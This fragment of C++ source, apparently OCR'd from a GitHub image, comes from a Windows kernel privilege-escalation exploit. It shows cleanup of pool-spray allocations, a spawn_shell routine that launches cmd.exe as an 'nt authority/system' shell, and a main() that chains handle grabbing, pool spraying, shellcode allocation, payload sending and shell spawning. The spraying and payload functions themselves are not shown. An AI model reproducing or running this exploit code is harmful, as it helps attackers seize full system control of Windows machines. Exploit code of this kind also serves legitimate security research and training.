 ```cpp
    cout << "[>] Defragmentation allocations freed.\n";
    cout << "[>] Freeing sequential allocations...\n";
    for (int i = 0; i < sequential_handles.size(); i++) {

        BOOL freed = CloseHandle(sequential_handles[i]);
        if (freed == false) {
            //cout << "[!] Unable to free defragment allocation!\n";
            //cout << "[!] Last error: " << GetLastError() << "\n";
            //exit(1);
        }
    }
    cout << "[>] Sequential allocations freed.\n";
}

void spawn_shell() {

    cout << "[>] Spawning nt authority/system shell...\n";

    PROCESS_INFORMATION pi;
    ZeroMemory(&pi, sizeof(pi));

    STARTUPINFOA si;
    ZeroMemory(&si, sizeof(si));

    CreateProcessA("C:\\Windows\\System32\\cmd.exe",
        NULL,
        NULL,
        NULL,
        0,
        CREATE_NEW_CONSOLE,
        NULL,
        NULL,
        &si,
        &pi);
}

int main() {

    HANDLE hFile = grab_handle();

    spray_pool();

    allocate_shellcode();

    send_payload(hFile);

    free_chunks();

    spawn_shell();

    return 0;
}
```
